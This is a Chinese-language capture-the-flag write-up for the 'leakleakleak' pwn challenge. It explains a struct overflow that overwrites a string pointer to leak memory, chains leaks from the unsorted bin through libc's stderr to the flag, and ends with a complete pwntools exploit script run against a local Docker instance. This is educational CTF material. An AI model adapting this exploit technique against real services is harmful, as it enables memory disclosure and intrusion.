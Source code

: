 ```yaml
---
title: "W&MCTF pwn writeups"
date: "2024-04-01"
author: ["Y4ng"]
keywords: 
- PWN
- writeups
- ctf
categories: 
- writeups
tags: 
- PWN
- writeups
- ctf
description: "抛开libc不谈，调偏移就是耍流氓😣"
weight:
slug: ""
draft: false # 是否为草稿
comments: true
reward: true # 打赏
mermaid: false # 是否开启mermaid
showToc: true # 显示目录
TocOpen: true # 自动展开目录
hidemeta: false # 是否隐藏文章的元信息，如发布日期、作者等
disableShare: true # 底部不显示分享栏
showbreadcrumbs: true # 顶部显示路径
cover:
    image: "title.png" # 图片路径：posts/tech/123/123.png
    hidden: true
---
```


![image1](title.png)
## 题目分析

竟然给了源码0.0，直接开看！！！

flag以全局变量存在bss段中

![image](2.png)

checksec一下果然开了PIE.......

![image](3.png)

继续看源码，建立了一个结构体，并将成员分别输出

![image](4.png)

结构体如下

```c
typedef struct {
    char username[32];
    char *description;
} User;
```

漏洞点在于第一个read语句，对username的读入会覆盖掉description，可以打开pwndbg看结构体在内存上的分布

![image](5.png)

username占0x20，却可以读入0x28个字节，将0x55555555c5f0（description）给覆盖，之后在将description给输出时，有一个任意内存泄露

想到这，我们就可以通过泄露的方式将flag给读出

## 漏洞利用

由于开了PIE，低三位是不变的，先看看flag的地址

![image](6.png)

第三位是0X0C0，由于没有内存直接指向flag，先看看周围的内存空间，发现flag上面有std_err

![image](7.png)

一般libc中都会有内存指向std_err，所以在libc中搜索一下，果然发现了

![image](8.png)

由于libc中偏移是固定的，所以现在只需要泄露个libc地址就ok了，在堆附近可以看到有一个unsorted bin，泄露出它的fd就行了

![image](9.png)

![image](10.png)

总结，我们的leak路线就是unsorted_bin.fd-----> stderr-------->flag

泄露FD上的libc是1/16的几率爆破

由于远程偏移不一样，我们开一个docker容器将里面的libc和ld给拿出来

```bash
sudo docker run -p 5000:5000 --privileged $(sudo docker build -q .)
```

之后就是让人崩溃的偏移调试。。。。最终偏移是通过泄露出了附近的地址手动确定的

## exp

```python
from pwn import *
context(os = 'linux',arch = 'amd64',log_level = 'debug',timeout=0.5)
binary_path = './leakleakleak'
libc_path = './libc.so.6'

elf = ELF(binary_path)
#leak_addr = lambda name,addr: log.success(f'{name}----->'+hex(addr))
#main_arena_offset = libc.symbols["__malloc_hook"] + 0x10

def debug():
    gdb.attach(p)
    pause()

#"0x7fe8c7a74848"
while(True):
    try:
        p = remote("127.0.0.1", 5000) 
        p.recvuntil(b'What is your name? ')
        payload = b'a'*32+b'\x10\xa7'
        #debug()
        p.send(payload)
        p.recvuntil(b'Let me tell you something about yourself! :3\n')
        addr = u64(p.recvuntil(b'\x7f').ljust(8,b'\x00'))
        log.success("libc--->" + hex(addr))
        std_err = addr - 0xe38
        p.recvuntil(b'Continue? (Y/n) ')
        p.sendline(b'Y')
        #second
        p.recvuntil(b'What is your name? ')
        payload = b'a'*32+p64(std_err)
        p.send(payload)
        p.recvuntil(b'Let me tell you something about yourself! :3\n')
        flag_addr = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00')) + 0x20
        log.success("flag_addr--->"+hex(flag_addr))
        p.recvuntil(b'Continue? (Y/n) ')
        p.sendline(b'Y')
        #third
        log.success("libc--->" + hex(addr))
        log.success("stderr-->" + hex(std_err))
        log.success("flag_addr--->"+hex(flag_addr))
        p.recvuntil(b'What is your name? ')
        p.send(payload)
        payload = b'a'*32+p64(flag_addr)
        p.send(payload)
        p.interactive()
    except:
        p.close()
```